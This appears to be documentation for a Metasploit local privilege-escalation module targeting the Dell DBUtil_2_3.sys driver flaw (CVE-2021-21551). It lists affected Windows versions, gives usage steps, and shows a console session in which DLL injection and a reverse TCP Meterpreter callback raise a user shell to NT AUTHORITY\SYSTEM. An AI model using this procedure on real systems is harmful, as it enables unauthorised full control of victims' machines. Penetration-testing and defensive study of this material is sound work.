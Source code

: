 ## Vulnerable Application
The DBUtil_2_3.sys driver distributed by Dell exposes an unprotected IOCTL interface that can be abused by an attacker
read and write kernel-mode memory.

### Supported Targets

* Windows 7 SP0 x64
* Windows 7 SP1 x64
* Windows 8.1 x64
* Windows 10 x64 v1607 - v2009 (20H2)
* Windows Server 2016 x64
* Windows Server 2019 x64

## Verification Steps

1. Start msfconsole
1. Get a Meterpreter session on a vulnerable host
1. Do: `use exploit/windows/local/cve_2021_21551_dbutil_memmove`
1. Set the `SESSION` and `PAYLOAD` options
1. Do: `run`
1. You should get a shell.

## Scenarios

### Windows 10 Version 1909 Build 18363.418 x64

```
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 192.168.159.128:4444 
[*] Sending stage (200262 bytes) to 192.168.159.79
[*] Meterpreter session 2 opened (192.168.159.128:4444 -> 192.168.159.79:57013) at 2021-05-12 16:10:10 -0400

meterpreter > sysinfo
Computer        : DESKTOP-RTCRBEV
OS              : Windows 10 (10.0 Build 18363).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 5
Meterpreter     : x64/windows
meterpreter > getuid
Server username: DESKTOP-RTCRBEV\Alice Liddle
meterpreter > getsystem
[-] priv_elevate_getsystem: Operation failed: Access is denied. The following was attempted:
[-] Named Pipe Impersonation (In Memory/Admin)
[-] Named Pipe Impersonation (Dropper/Admin)
[-] Token Duplication (In Memory/Admin)
[-] Named Pipe Impersonation (RPCSS variant)
meterpreter > run exploit/windows/local/cve_2021_21551_dbutil_memmove

[*] Started reverse TCP handler on 192.168.159.128:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable.
[*] Launching notepad to host the DLL...
[+] Process 5212 launched.
[*] Reflectively injecting the DLL into 5212...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (200262 bytes) to 192.168.159.79
[*] Meterpreter session 3 opened (192.168.159.128:4444 -> 192.168.159.79:57015) at 2021-05-12 16:12:43 -0400
[*] Session 3 created in the background.
meterpreter > sessions 3
[*] Backgrounding session 2...
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```
